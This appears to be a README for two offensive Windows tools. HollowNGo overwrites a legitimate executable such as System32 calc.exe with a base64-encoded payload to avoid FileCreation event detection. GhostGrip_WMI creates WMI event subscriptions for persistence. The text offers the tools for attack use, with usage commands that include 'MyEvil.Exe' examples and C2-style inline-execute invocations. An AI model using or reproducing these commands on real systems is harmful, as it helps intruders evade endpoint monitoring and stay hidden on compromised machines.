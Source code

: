 HollowNGo aims to avoid FileCreation Events by reading your payload as bytes, compressing them, and converting the compressed bytes to base64, setting the target file stream length to 0, then the same encoding operation in reverse to write to the target file. THIS IS TO BE RUN ON YOUR MACHINE NOT THE TARGET.

HollowNGo.exe -encode <source.exe> -output <output.txt>
example: HollowNGo.exe C:\Users\User\Documents\MyEvil.Exe -output EvilB64.txt

HollowNGo.exe -source <base64_content> -target <target.exe>
Example: dotnet inline-execute HollowNGo.exe -source <EvilB64Code> -target C:\Windows\System32\calc.exe


GhostGrip_WMI creates a WMIEventSubscription for your prefered event for persistence. Use HollowNGo prior to set up your executable to avoid FileCreation Events.

GhostGrip_WMI.exe -location <path_to_executable> -type <time/logon/eventcode> -randomizename true/false
example dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type eventcode -eventcode 4726 -randomizename true
